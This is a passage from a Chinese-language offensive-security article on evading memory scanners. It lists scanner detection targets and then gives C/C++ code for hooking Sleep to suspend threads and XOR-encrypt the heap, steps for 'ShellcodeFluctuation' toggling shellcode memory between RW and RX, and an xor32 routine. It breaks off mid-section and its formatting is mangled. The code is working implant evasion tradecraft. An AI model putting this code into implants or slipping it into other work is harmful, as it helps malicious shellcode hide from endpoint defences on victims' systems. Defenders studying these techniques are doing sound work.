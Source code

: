 ## 0x03 Memory Scanners Evasion (内存扫描规避)

### 一、检测机制

  * 内存扫描：扫描内存查找注入的恶意代码，并检测进程内存空间中的可疑API调用

  * 检测项：进程信息、shellcode特征、堆栈、内存映像

  

### 二、规避技巧

  * 睡眠混淆：hook sleep函数，实现内存加密和解密

Heap  Encryption

通过Hook Sleep函数，睡眠期间加密堆内存规避内存扫描：

    *     *     *     *     *     *     *     *     *     void WINAPI HookedSleep(DWORD dwMiliseconds) {        DoSuspendThreads(GetCurrentProcessId(), GetCurrentThreadId());        HeapEncryptDecrypt();  
            OldSleep(dwMiliseconds);  
            HeapEncryptDecrypt();        DoResumeThreads(GetCurrentProcessId(), GetCurrentThreadId());}
    
        关键部分代码，加密堆内存：  
    

    *     *     *     *     *     *     *     *     *     static PROCESS_HEAP_ENTRY entry;VOID HeapEncryptDecrypt() {    SecureZeroMemory(&entry, sizeof(entry));    while (HeapWalk(currentHeap, &entry)) {        if ((entry.wFlags & PROCESS_HEAP_ENTRY_BUSY) != 0) {            XORFunction(key, keySize, (char*)(entry.lpData), entry.cbData);        }    }}

  

    * ShellcodeFluctuation  

    1. Hook Sleep 函数

    2. 定位内存中的shellcode

    3. 睡眠期间翻转为RW

    4. 睡眠结束翻转为RX

    5. 无限循环，以此规避内存扫描

关键部分代码：

  

XOR加密：

    *     *     *     *     *     *     *     *     *     *     *     *     *     *     *     void xor32(uint8_t* buf, size_t bufSize, uint32_t xorKey){    uint32_t* buf32 = reinterpret_cast<uint32_t*>(buf);  
        auto bufSizeRounded = (bufSize - (bufSize % sizeof(uint32_t))) / 4;    for (size_t i = 0; i < bufSizeRounded; i++)    {        buf32[i] ^= xorKey;    }  
        for (size_t i = 4 * bufSizeRounded; i < bufSize; i++)    {        buf[i] ^= static_cast<uint8_t>(xorKey & 0xff);    }}
    
        定位内存中的shellcode地址：  
    